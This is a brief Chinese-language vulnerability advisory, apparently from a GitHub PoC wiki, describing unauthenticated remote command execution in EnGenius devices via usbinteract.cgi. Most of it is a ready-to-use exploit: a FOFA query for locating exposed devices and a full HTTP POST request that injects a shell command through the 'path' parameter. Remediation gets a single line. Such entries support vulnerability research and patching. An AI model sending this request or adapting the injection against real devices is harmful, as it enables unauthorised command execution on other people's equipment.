

# EnGenius  usbinteract.cgi 存在未授权远程命令执行

# 漏洞描述

EnGenius  usbinteract.cgi 存在未授权远程命令执行，未授权攻击者可进行任意命令执行。

# 影响版本

EnGenius

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/web/images/guest.png" && body="/web/images/admin.png"

POC/EXP：

POST /web/cgi-bin/usbinteract.cgi HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

action=7&path="|id||"

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
